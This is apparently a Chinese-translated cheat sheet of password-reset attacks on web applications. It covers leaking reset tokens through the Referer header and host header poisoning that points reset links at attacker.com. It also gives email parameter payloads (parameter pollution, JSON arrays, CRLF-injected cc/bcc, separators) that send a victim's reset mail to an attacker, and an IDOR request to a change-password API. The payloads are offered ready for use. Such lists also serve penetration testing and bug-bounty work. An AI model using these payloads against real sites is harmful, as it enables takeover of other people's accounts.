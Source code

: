 ### Password Reset Token Leak Via Referrer - 可能的密码重置Token泄露来源

1. 请求将密码重置为您的电子邮件地址 
2. 单击密码重置链接 
3. 不要更改密码 
4. 单击任何第三方网站（例如：Facebook、twitter） 
5. Burp Suite 拦截请求 
6. 检查referer header是否正在泄漏密码重置令牌

### Account Takeover Through Password Reset Poisoning - 通过密码重置投毒接管账户

1. 拦截Burp Suite中的密码重置请求 
2. 在 Burp Suite 中添加或编辑以下标头：`Host: attacker.com, X-Forwarded-Host: attacker.com` 
3. 使用修改后的header转发请求

```
POST https://example.com/reset.php HTTP/1.1
Accept: */*
Content-Type: application/json
Host: attacker.com
```

4. 寻找基于*host header*的密码重置URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### Password Reset Via Email Parameter - 通过电子邮件参数重置密码

```
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### IDOR on API Parameters - API参数越权

> 译者注：Insecure Direct Object reference (IDOR)不安全的直接对象引用，基于用户提供的输入对象直接访问，而未进行鉴权，这个漏洞在国内被称作越权漏洞。

1. 攻击者必须使用他们的帐户登录并转到**更改密码**功能
2. 启动 Burp Suite 并拦截请求 
3. 将其发送到repeater，编辑参数：用户 ID/电子邮件

```
POST /api/changepass
[...]
("form": {"email":"victim@email.com","password":"securepwd"})
```
